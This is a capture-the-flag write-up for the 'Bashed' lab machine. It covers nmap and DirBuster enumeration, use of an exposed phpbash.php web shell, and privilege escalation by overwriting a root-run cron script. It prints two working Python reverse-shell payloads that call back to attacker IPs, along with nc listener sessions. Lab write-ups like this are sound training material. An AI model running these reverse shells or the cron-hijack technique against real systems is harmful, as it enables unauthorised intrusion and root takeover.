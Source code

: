 ## Bashed

Machine ip: 10.10.10.68

### Nmap Scanning

### Nmap Scanning

```bash
$ cat nmap/initial.nmap  
# Nmap 7.91 scan initiated Thu Aug 19 16:10:22 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.099s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 16:10:34 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

- Home page

![homepage](../images/bashed/homepage.PNG)

- No other pages seem to work, so run dirbuster

- on running `dirbuster`, found following directories and files

```bash
$ Starting OWASP DirBuster 1.
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
```

- Out of all `/dev` seems to be interesting and on opening the directory found `phpbash.php` which is running on lightweight bash on the browser.
- Create a reverse shell to connect back to kali machine

__Reverse shell__

```bash
www-data@bashed: /usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 55660
$ ls
ls
bin   etc	  lib	      media  proc  sbin     sys  var
boot  home	  lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv	    usr
```


## Privilege Escalation

- on running `sudo -l`

```bash
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

- running/switching `scriptmanager` user

```bash
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ ls
```

- found a schedules task in `/scripts/test.py` which is run by root
- change the contents and place the reverse shell in place of `test.py` content


- `test.py` after  modifying
```bash
#!/usr/bin/python

import os


import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4242))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 52878
# id
id
uid=0(root) gid=0(root) groups=0(root)
```






